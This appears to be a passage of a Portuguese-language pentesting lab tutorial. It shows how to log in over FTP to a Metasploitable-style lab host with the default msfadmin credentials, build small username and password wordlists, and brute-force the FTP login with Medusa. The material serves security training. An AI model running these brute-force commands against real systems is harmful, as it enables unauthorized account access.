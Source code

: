 ## **Passo 3: Conectar via FTP**

### Conexão FTP direta:
No terminal do Kali:

```bash
ftp 192.168.56.110
```

**Quando pedir credenciais:**
- **Username:** `msfadmin`
- **Password:** `msfadmin`

**Comandos FTP úteis:**
```ftp
ls              # Listar arquivos
pwd             # Ver diretório atual
cd /            # Mudar para diretório raiz
exit            # Sair
```

## **Passo 4: Ataque de Força Bruta com Medusa**

### Criar arquivos de wordlist:
No Kali:

- Para criar a wordlist para os usernames:
     
**users.txt:**
```bash
echo "test" > users.txt
echo "admin" >> users.txt
echo "msfadmin" >> users.txt
echo "username" >> users.txt
```
ou:  
```bash
echo -e "test\nadmin\nmsfadmin\nusername" > users.txt
```
- Para criar a wordlist para as senhas:
     
**pass.txt:**
```bash
echo "msfadmin" > pass.txt
echo "admin" >> pass.txt
echo "123456" >> pass.txt
echo "password" >> pass.txt
```
ou:  

```bash
echo -e "msfadmin\nadmin\n123456\npassword" > pass.txt
```

### Executar Medusa com um único username:
```bash
medusa -h 192.168.56.110 -u msfadmin -P pass.txt -M ftp
```
